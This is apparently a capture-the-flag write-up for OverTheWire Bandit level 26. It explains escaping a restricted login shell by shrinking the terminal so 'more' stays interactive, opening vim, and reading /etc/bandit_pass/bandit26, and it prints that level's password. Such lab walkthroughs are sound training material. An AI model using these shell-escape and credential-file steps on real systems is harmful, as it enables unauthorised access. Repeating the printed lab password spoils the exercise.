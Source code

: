 ## Level 26
Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.

### Solution
1. We are given the ssh key to bandit26 and when you try to ssh into bandit26, it only shows you some text and exists:
```
bandit25@bandit:~$ ssh -i bandit26.sshkey -p 2220 bandit26@localhost

...

  _                     _ _ _   ___   __  
 | |                   | (_) | |__ \ / /  
 | |__   __ _ _ __   __| |_| |_   ) / /_  
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \ 
 | |_) | (_| | | | | (_| | | |_ / /| (_) |
 |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/ 
Connection to localhost closed.
```
This is due to the terminal not being `bin/bash` for bandit26 as seen from the passwd file:
```
bandit25@bandit:~$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
```

2. Analysing the showtext file shows that it runs `more`:
```
bandit25@bandit:~$ cat /usr/bin/showtext 
#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0
```
So when you ssh into bandit26, it will `more` the ~/text.txt file and then exit. There is a way to exploit `more` by making the terminal display fewer lines to set `more` into interactive mode.

3. Shrink your terminal to display fewer lines and then ssh into bandit26:
```
ssh -i bandit26.sshkey -p 2220 bandit26@localhost

...

  _                     _ _ _   ___   __  
 | |                   | (_) | |__ \ / /  
--More--(33%)
```
If there are few enough lines, it should set into interactive mode. 

4. Press "v" to go into vim mode and then cat out the password file for bandit26.
```
:e /etc/bandit_pass/bandit26

...

s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ
~                                                                                                
"/etc/bandit_pass/bandit26" [readonly] 1L, 33B    
```
